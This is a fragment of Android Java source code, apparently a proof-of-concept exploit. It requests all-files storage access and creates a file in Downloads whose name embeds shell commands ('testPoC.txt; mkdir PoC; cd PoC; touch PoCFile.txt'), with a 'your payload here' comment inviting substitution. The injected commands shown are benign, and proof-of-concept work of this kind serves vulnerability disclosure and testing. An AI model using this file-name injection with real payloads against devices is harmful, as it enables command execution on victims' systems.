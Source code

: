 ```java
                    intent.setData(Uri.parse("package:" + getPackageName()));
                    startActivityForResult(intent, PERMISSION_REQUEST_CODE);
                } catch (Exception e) {
                    Intent intent = new Intent(Settings.ACTION_MANAGE_ALL_FILES_ACCESS_PERMISSION);
                    startActivity(intent);
                }
            }
        }
    }

    @Override
    public void onRequestPermissionsResult(int requestCode, String[] permissions, int[] grantResults) {
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);
        if (requestCode == PERMISSION_REQUEST_CODE) {
            if (grantResults.length > 0 && grantResults[0] == PackageManager.PERMISSION_GRANTED) {
                createPoCFile();
            } else {
                Toast.makeText(getApplicationContext(), "Permission Denied!", Toast.LENGTH_SHORT).show();
            }
        }
    }

    private void createPoCFile() {
        // your payload here:
        String fileName = "testPoC.txt; mkdir PoC; cd PoC; touch PoCFile.txt";

        File file = new File(Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS),fileName);

        try {
            boolean created = file.createNewFile();
            if (created) {
                Toast.makeText(getApplicationContext(), "File created: " + file.getAbsolutePath(), Toast.LENGTH_LONG).show();
            } else {
                Toast.makeText(getApplicationContext(), "File already exists: " + file.getAbsolutePath(), Toast.LENGTH_LONG).show();
            }
        } catch (IOException e) {
            e.printStackTrace();
            Toast.makeText(getApplicationContext(), "Failed to create file!", Toast.LENGTH_SHORT).show();
        }
    }


    
        @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        
        if (checkPermission()) {
            createPoCFile();
        } else {
            requestPermission();
        }
    }
}
```